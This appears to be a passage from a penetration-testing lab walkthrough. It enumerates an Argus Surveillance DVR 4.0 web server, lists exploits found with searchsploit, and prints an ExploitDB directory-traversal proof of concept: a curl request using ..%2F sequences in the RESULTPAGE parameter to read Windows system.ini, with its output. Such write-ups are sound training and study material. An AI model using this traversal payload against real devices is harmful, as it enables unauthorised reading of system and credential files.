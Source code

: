 We find an SSH service running on port 22 and a webserver on port 8080. The webserver appears to be related to "Argus Surveillance DVR" according to the title.

### Webserver Enumeration

Using a browser and navigating to http://192.168.120.239:8080, we find the web controller for this DVR software.

We navigate to the About page at http://192.168.120.239:8080/About.html and discover that this is version `4.0` of the Argus Surveillance DVR. Let's see if there is anything we can use in ExploitDB by using `searchsploit`.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit -u  
...
┌──(kali㉿kali)-[~]
└─$ searchsploit Argus Surveillance DVR 4.0
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
Argus Surveillance DVR 4.0 - Unquoted Service Path     | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption  | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal   | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation  | windows_x86/local/45312.c
------------------------------------------------------- ---------------------------------
```

We are attempting to gain a shell access to the target, so the Directory Traversal is probably a good option to start with. Let's take a look at it's contents.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit -x 45296

# Exploit: Argus Surveillance DVR 4.0.0.0 - Directory Traversal
# Author: John Page (aka hyp3rlinx)
# Date: 2018-08-28
# Vendor: www.argussurveillance.com
# Software Link: http://www.argussurveillance.com/download/DVR_stp.exe
# CVE: N/A

# Description:
# Argus Surveillance DVR 4.0.0.0 devices allow Unauthenticated Directory Traversal,
# leading to File Disclosure via a ..%2F in the WEBACCOUNT.CGI RESULTPAGE parameter.

# PoC

curl "http://VICTIM-IP:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

# Result:

; for 16-bit app support
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

wave=mmdrv.dll
timer=timer.drv

# https://vimeo.com/287115273
# Greetz: ***Greetz: indoushka | Eduardo | GGA***
```